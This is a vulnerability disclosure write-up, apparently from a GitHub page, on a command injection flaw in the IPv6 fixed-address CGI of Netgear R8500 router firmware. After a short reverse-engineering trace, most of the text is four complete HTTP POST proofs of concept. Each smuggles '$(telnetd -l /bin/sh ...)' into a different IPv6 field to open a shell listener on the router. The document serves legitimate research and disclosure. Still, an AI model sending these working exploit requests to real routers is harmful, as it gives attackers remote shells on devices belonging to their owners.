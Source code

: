 # Netgear R8500  Router Vulnerability

## Basic infomation

* Vendor: Netgear

* Product: R8500

* Firmware version: V1.0.2.158

* Firmware download link: https://www.downloads.netgear.com/files/GDC/R8500/R8500-V1.0.2.158_1.0.105.zip

* Type:Remote Command Execution

* author:donothingme

## Vulnerability description

We found a Command Injection vulnerability in Netgear R8500 router, which allows an authenticated attacker to execute arbitrary OS commands by a crafted request.

In `http://www.routerlogin.net/IPV6_fixed.htm`,  we can set a fixed ipv6 address.

In this page, there are 4 vulnerability points can trigger vulnerability. The reasons for the vulnerability are the same, so we only analyze one of them, and give 4 pocs to trigger vulnerability .



We can locate the vulnerability function by string "ipv6_fix.cgi".

![image-20220321154257360](./1.assets/image-20220321154257360.png)



In `/usr/bin/http` binary, the firmware save netword data to nvram.

In function `sub_9B10C`, the `ipv6_wan_ipaddr`/`ipv6_lan_ipaddr`/ `ipv6_wan_length`/`ipv6_lan_length`field is directly saved in nvram config, and this field is directly controlled by attackers.



![image-20220321154601683](./1.assets/image-20220321154601683.png)



In `/sbin/acos_service` binary, the firmware extract network data from nvram. And these data is directly controlled by attackers.

In `sub_1F0C0`, `acosNvramConfig_get()` get data from nvram.

![image-20220321155054212](./1.assets/image-20220321155054212.png)

In `sub_1D1AC`, firmware execute `system()` use the data of attacker, it will cause command injection vulnerability.

![image-20220321155143777](./1.assets/image-20220321155143777.png)

### vulnerability point1

**Some tips to trigger vulnerability:**

* Use IP address(192.168.1.1) instead of url(www.routerlogin.net) to access web page
* Plug in the USB stick to make sure reproduce successfunly

In `ipv6_wan_ipaddr` filed, if we set the filed equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+9999+-b+0.0.0.0%29`,we can actually execute command which `$(telnetd -l /bin/sh -p 9999-b 0.0.0.0)`.

![image-20220321140823822](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20220321140823822.png)

The POC like follows:

```
POST /ipv6_fix.cgi?id=a963685274e4a40fab8d712f1cc1f55f1f1a749a094a7ae1a06d9534db56ce3d HTTP/1.1
Host: 192.168.1.1
Proxy-Connection: keep-alive
Content-Length: 1089
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/IPV6_fixed.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=1222440606

apply=%E5%BA%94%E7%94%A8&login_type=%E9%9D%99%E6%80%81&IPv6WanAddr1=2001&IPv6WanAddr2=0000&IPv6WanAddr3=0000&IPv6WanAddr4=0000&IPv6WanAddr5=0000&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0000&ProfixWanLength=64&IPv6Gateway1=2001&IPv6Gateway2=0000&IPv6Gateway3=0000&IPv6Gateway4=0000&IPv6Gateway5=0000&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0001&DAddr1=2001&DAddr2=0000&DAddr3=0000&DAddr4=0000&DAddr5=0000&DAddr6=0000&DAddr7=0000&DAddr8=0002&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=2002&IPv6LanAddr2=0000&IPv6LanAddr3=0000&IPv6LanAddr4=0000&IPv6LanAddr5=0000&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=64&ipv6_wan_ipaddr=%24%28telnetd+-l+%2Fbin%2Fsh+-p+9999+-b+0.0.0.0%29&ipv6_lan_ipaddr=2002%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_wan_length=64&ipv6_lan_length=64&ipv6_pri_dns=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0002&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_enable_dhcp=&ipv6_proto=fixed
```

And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321135622300](./1.assets/image-20220321135622300.png)



### vulnerability point2

In `ipv6_lan_ipaddr` filed, if we set the filed equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+10000+-b+0.0.0.0%29`,we can actually execute command which `$(telnetd -l /bin/sh -p 10000-b 0.0.0.0)`.



![image-20220321135927259](./1.assets/image-20220321135927259.png)



The POC like follows:

```
POST /ipv6_fix.cgi?id=14f6201985986f34fc5b9f88600e017cbf67d002b45a03f48ebb8b6396edc3f4 HTTP/1.1
Host: 192.168.1.1
Proxy-Connection: keep-alive
Content-Length: 1066
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/IPV6_fixed.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=2558749239

apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=0000&IPv6WanAddr3=0000&IPv6WanAddr4=0000&IPv6WanAddr5=0000&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0000&ProfixWanLength=64&IPv6Gateway1=2001&IPv6Gateway2=0000&IPv6Gateway3=0000&IPv6Gateway4=0000&IPv6Gateway5=0000&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0001&DAddr1=2001&DAddr2=0000&DAddr3=0000&DAddr4=0000&DAddr5=0000&DAddr6=0000&DAddr7=0000&DAddr8=0002&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=2002&IPv6LanAddr2=0000&IPv6LanAddr3=0000&IPv6LanAddr4=0000&IPv6LanAddr5=0000&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=64&ipv6_wan_ipaddr=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000&ipv6_lan_ipaddr=%24%28telnetd+-l+%2Fbin%2Fsh+-p+10000+-b+0.0.0.0%29&ipv6_wan_length=64&ipv6_lan_length=64&ipv6_pri_dns=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0002&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_enable_dhcp=&ipv6_proto=fixed
```



And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321140711686](./1.assets/image-20220321140711686.png)

### vulnerability point3

In `ipv6_wan_length` filed, if we set the filed equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+11111+-b+0.0.0.0%29`,we can actually execute command which `$(telnetd -l /bin/sh -p 11111-b 0.0.0.0)`.



![image-20220321141223903](./1.assets/image-20220321141223903.png)



The POC like follows:

```
POST /ipv6_fix.cgi?id=14f6201985986f34fc5b9f88600e017cbf67d002b45a03f48ebb8b6396edc3f4 HTTP/1.1
Host: 192.168.1.1
Proxy-Connection: keep-alive
Content-Length: 1066
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/IPV6_fixed.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=2558749239

apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=0000&IPv6WanAddr3=0000&IPv6WanAddr4=0000&IPv6WanAddr5=0000&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0000&ProfixWanLength=64&IPv6Gateway1=2001&IPv6Gateway2=0000&IPv6Gateway3=0000&IPv6Gateway4=0000&IPv6Gateway5=0000&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0001&DAddr1=2001&DAddr2=0000&DAddr3=0000&DAddr4=0000&DAddr5=0000&DAddr6=0000&DAddr7=0000&DAddr8=0002&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=2002&IPv6LanAddr2=0000&IPv6LanAddr3=0000&IPv6LanAddr4=0000&IPv6LanAddr5=0000&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0000&ProfixLanLength=64&ipv6_wan_ipaddr=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000&ipv6_lan_ipaddr=2002%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000&ipv6_wan_length=%24%28telnetd+-l+%2Fbin%2Fsh+-p+11111+-b+0.0.0.0%29&ipv6_lan_length=64&ipv6_pri_dns=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0002&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_enable_dhcp=&ipv6_proto=fixed
```

And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321141706848](./1.assets/image-20220321141706848.png)

### vulnerability point4

In `ipv6_lan_length` filed, if we set the filed equal to `%24%28telnetd+-l+%2Fbin%2Fsh+-p+22222+-b+0.0.0.0%29`,we can actually execute command which `$(telnetd -l /bin/sh -p 22222-b 0.0.0.0)`.

![image-20220321141804075](./1.assets/image-20220321141804075.png)

The POC like follows:

```
POST /ipv6_fix.cgi?id=211c9d0df6eb050404a90986a1f6b103d6f37b6a750dd1724caf349ff6393451 HTTP/1.1
Host: 192.168.1.1
Proxy-Connection: keep-alive
Content-Length: 1064
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/IPV6_fixed.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XSRF_TOKEN=4125904923

apply=%E5%BA%94%E7%94%A8&login_type=%E9%9D%99%E6%80%81&IPv6WanAddr1=2001&IPv6WanAddr2=0000&IPv6WanAddr3=0000&IPv6WanAddr4=0000&IPv6WanAddr5=0000&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0000&ProfixWanLength=64&IPv6Gateway1=2001&IPv6Gateway2=0000&IPv6Gateway3=0000&IPv6Gateway4=0000&IPv6Gateway5=0000&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=2001&DAddr2=0000&DAddr3=0000&DAddr4=0000&DAddr5=0000&DAddr6=0000&DAddr7=0000&DAddr8=0003&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=2002&IPv6LanAddr2=0000&IPv6LanAddr3=0000&IPv6LanAddr4=0000&IPv6LanAddr5=0000&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=64&ipv6_wan_ipaddr=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000&ipv6_lan_ipaddr=2002%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0001&ipv6_wan_length=64&ipv6_lan_length=%24%28telnetd+-l+%2Fbin%2Fsh+-p+22222+-b+0.0.0.0%29&ipv6_pri_dns=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0003&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=2001%3A0000%3A0000%3A0000%3A0000%3A0000%3A0000%3A0002&ipv6_enable_dhcp=&ipv6_proto=fixed
```

And as we can see, after send the craft request, the command is actually executed, and we can get a shell.

![image-20220321142518762](./1.assets/image-20220321142518762.png)